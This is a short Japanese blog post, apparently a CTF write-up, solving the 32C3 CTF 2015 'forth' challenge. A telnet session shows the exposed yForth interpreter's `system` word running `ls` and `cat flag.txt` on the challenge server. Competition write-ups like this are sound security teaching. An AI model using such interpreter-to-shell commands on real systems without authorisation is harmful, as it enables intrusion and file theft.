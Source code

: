 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2015/32c3-ctf-forth/
  - /blog/2016/01/02/32c3-ctf-forth/
date: 2016-01-02T23:19:54+09:00
tags: [ "ctf", "pwn", "writeup", "forth", "xinetd" ]
---
```


# 32C3 CTF forth

## [pwn 150: forth](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/forth-150)

>   Connect to 136.243.194.49:1024 and get a shell.

本番中に解けた。

forthのinterpreterに繋がっているので、`system`を叩けばよい。
真面目にforthの命令で出力させようとして、`[open-file] error(2): unknown word.`とか言われforthのmanual読みながら頑張っていたりしたので、それなりに苦労した。

``` sh
$ telnet 136.243.194.49 1024
Trying 136.243.194.49...
Connected to 136.243.194.49.
Escape character is '^]'.
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s" ls" system
flag.txt  README.gpl  run.sh  yforth
ok
ok
s" cat flag.txt" system
32C3_a8cfc6174adcb39b8d6dc361e888f17b
ok
ok
^]
telnet> quit
Connection closed.
```
